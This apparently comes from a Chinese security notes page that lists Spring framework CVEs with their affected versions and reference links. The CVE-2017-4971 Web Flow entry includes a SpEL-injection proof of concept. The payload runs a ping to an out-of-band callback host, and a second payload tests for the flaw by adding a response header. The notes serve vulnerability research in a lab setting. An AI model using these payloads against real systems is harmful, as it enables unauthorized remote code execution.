 ### [](#CVE-2016-6652-Spring-Data-JPA-SQL盲注 "CVE-2016-6652 Spring Data JPA SQL盲注")CVE-2016-6652 Spring Data JPA SQL盲注

影响版本：Spring Data JPA 1.10.2、1.9.4

[https://www.seebug.org/vuldb/ssvid-92534](https://www.seebug.org/vuldb/ssvid-92534)

### [](#CVE-2017-4971-Spring-WebFlow-远程代码执行漏洞 "CVE-2017-4971 Spring WebFlow 远程代码执行漏洞")CVE-2017-4971 Spring WebFlow 远程代码执行漏洞

影响版本：Spring Web Flow 2.4.0 to 2.4.4

使用vulhub搭建环境后，在添加poc执行

```


1.  `&_(new+java.lang.ProcessBuilder("ping","xxx.ceye.io")).start()=vulhub`


```

![image-20200331111056698](https://github-1300513062.cos.ap-shanghai.myqcloud.com/img/20200401131651.png)

![image-20200331111146008](https://github-1300513062.cos.ap-shanghai.myqcloud.com/img/20200401131653.png)

无害化payload检测，如果 response header 中出现 vulnerable 头，则有漏洞：

```


1.  `&_T(org.springframework.web.context.request.RequestContextHolder).getRequestAttributes().getResponse().addHeader("vulnerable","True").aaa=n1nty`


```

![image-20200331111225481](https://github-1300513062.cos.ap-shanghai.myqcloud.com/img/20200401131655.png)

### [](#CVE-2017-8045-Spring-Amqp中的远程代码执行 "CVE-2017-8045 Spring Amqp中的远程代码执行")CVE-2017-8045 Spring Amqp中的远程代码执行

影响版本：1.7.4、1.6.11和1.5.7之前的Spring AMQP版本

[https://xz.aliyun.com/t/36](https://xz.aliyun.com/t/36)

### [](#CVE-2017-8046-Spring-Data-REST-PATCH请求远程执行代码 "CVE-2017-8046 Spring Data REST PATCH请求远程执行代码")CVE-2017-8046 Spring Data REST PATCH请求远程执行代码

影响版本：Spring Data REST 2.5.12, 2.6.7, 3.0 RC3之前的版本、Spring Data release trains Kay-RC3之前的版本、Spring Boot 2.0.0M4之前的版本

[https://www.cnblogs.com/co10rway/p/9380441.html](https://www.cnblogs.com/co10rway/p/9380441.html)
